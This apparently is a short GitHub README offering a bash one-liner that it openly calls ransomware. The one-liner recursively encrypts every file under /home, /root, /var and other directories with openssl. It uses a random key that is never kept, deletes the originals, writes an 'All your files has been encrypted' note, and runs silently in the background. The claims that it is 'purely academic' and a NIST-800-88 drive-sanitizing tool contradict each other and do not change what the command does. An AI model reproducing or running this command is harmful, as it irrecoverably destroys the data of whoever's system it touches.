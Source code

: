 # Ransomware-Oner-Line
This is a code for ransomware in bash script oner line. !!! PURELY FOR ACADEMICAL PURPOSES !!!  

I am not responsible in any way for the misuse of this script, this is code normally installed in any linux distribution  
that has been bundled in a way to encrypt all data using AES-CBC-256 encryption with openssl.  

This script was developed for the purpose of sanitizing physical storage drives for disposal to NIST-800-88 standard  

With great powers, great responsibilities...  

### Code

```
Ransom@lock:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do openssl enc -aes-256-cbc -a -salt -in $i -out $i.cry -k $(echo -n $RANDOM | base64 | sha256sum) && echo '' > $i && rm -rf $i;echo 'All your files has been encrypted !' > $HOME/README.TXT;done >/dev/null 2>&1& 
```
